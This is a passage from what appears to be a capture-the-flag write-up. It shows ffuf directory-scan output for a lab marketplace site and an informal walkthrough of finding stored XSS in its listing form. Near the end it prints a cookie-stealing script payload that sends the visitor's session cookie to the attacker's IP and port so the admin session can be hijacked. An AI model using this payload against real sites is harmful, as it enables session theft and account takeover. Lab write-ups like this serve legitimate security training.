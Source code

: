 ```

```
### ffuf

```
.hta                    [Status: 403, Size: 153, Words: 3, Lines: 8]
.htaccess               [Status: 403, Size: 153, Words: 3, Lines: 8]
.htpasswd               [Status: 403, Size: 153, Words: 3, Lines: 8]
                        [Status: 200, Size: 779, Words: 176, Lines: 36]
admin                   [Status: 403, Size: 392, Words: 75, Lines: 22]
Admin                   [Status: 403, Size: 392, Words: 75, Lines: 22]
ADMIN                   [Status: 403, Size: 392, Words: 75, Lines: 22]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11]
login                   [Status: 200, Size: 857, Words: 200, Lines: 36]
Login                   [Status: 200, Size: 857, Words: 200, Lines: 36]
messages                [Status: 302, Size: 28, Words: 4, Lines: 1]
new                     [Status: 302, Size: 28, Words: 4, Lines: 1]
robots.txt              [Status: 200, Size: 31, Words: 3, Lines: 3]
signup                  [Status: 200, Size: 667, Words: 159, Lines: 31]
stylesheets             [Status: 301, Size: 189, Words: 7, Lines: 11]

```

we visit the website (port 80 and 32768 look identical)

meet `jake` and `michael`

signup, then login

we are not authorized to visit `/admin` dir...yet

when trying to create a new listing I tried to enable the upload button from code inspector but no use

the hint said to look around the report option...when you report a listing to admins you get a message back

I tried to check for xss and yup...

when creating a ne listing the most basic checks works with

`<script>alert(1)</script>`

But what do we do with this? 

oh...cookies! took me some time!

there is a `token` cookie that register your session...decoding it with jwt.io is not really helpful

But combined with the XSS vulnerability we can do some `Cookie stealing` and get admin's

Basically we forge a cookie-stealing Reflected Xss payload like...

`<script>new Image().src="http://10.8.226.203:8080/?"+document.cookie;</script>`

It obviously sends the user's cookie to our machine server on specified port (8080 for me)

